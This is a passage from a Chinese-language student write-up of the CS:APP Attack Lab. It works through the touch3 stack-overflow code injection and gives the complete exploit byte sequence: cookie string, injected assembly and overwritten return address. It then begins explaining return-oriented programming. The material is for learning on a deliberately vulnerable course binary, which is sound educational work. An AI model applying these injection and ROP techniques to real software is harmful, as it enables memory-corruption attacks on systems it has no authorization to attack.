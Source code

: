 可以看到，touch3相关的函数会把`getbuf()`栈里头的内容给覆写掉，所以我们要好好想想如何保护我们注入的代码和字符串。

从`hexmatch()`的汇编也可以看出，实际是对着`%rsp`减了126，应该是用来给`cbuf[110]`用的，从代码上可以看出，这波是在随机的起始地址上存了cookie的字符串，那么也就是说，`hexmatch`函数随机存入的cookie string，有可能会把我们构造的字符串给覆盖掉

```text
401850: 48 83 c4 80           add    $0xffffffffffffff80,%rsp
```

思考一下，直接把`%rsp`给拉下来`0x28+0x8`即`0x30`就行了（也可以把这个字符串放在更高的地址上），减掉`0x30`是为了不使得注入的代码被破坏，因为我构造的代码有`pushq`。（~~别问我怎么知道的，问就是我只想减去`0x8+0x10`结果就segmentation fault了~~

紧接着，cookie的字符串的字节码如下

```text
35 39 62 39 39 37 66 61 00
```

我们写出下面的汇编

```text
sub $0x30, %rsp # protect
movq $0x5561dc78, %rdi # addr of cookie string
movq $0x4018fa, %rax # addr of touch3()
pushq %rax
retq
```

所以最后的字节码如下

```text
/* cookie string */
35 39 62 39 39 37 66 61
00 00 00 00 00 00 00 00
/* injected code */
48 83 ec 30 48 c7 c7 78
dc 61 55 48 c7 c0 fa 18
40 00 50 c3 00 00 00 00
/* return to injected code */
88 dc 61 55 00 00 00 00
```

## ROP

面向对象编程，面过过程还有函数式编程，我们都很熟悉了。那么，什么是面向返回编程呢？

当一个程序使用了如下的技术的时候，上面的代码注入操作就没用了

- Randomized stack address
- Set section of memory holding the stack as non-executable

首先我们无法确定栈的地址，即使能确定，但由于栈所在的内存区域，被标记为了不可执行，所以一旦执行位于栈上的代码就会出现`segment fault`

但如果我们可以利用该程序里头现有的代码（字节码）完成攻击

比如有一段代码

```c
void setval_210(unsigned *p)
{
  *p = 3347663060U;
}
```
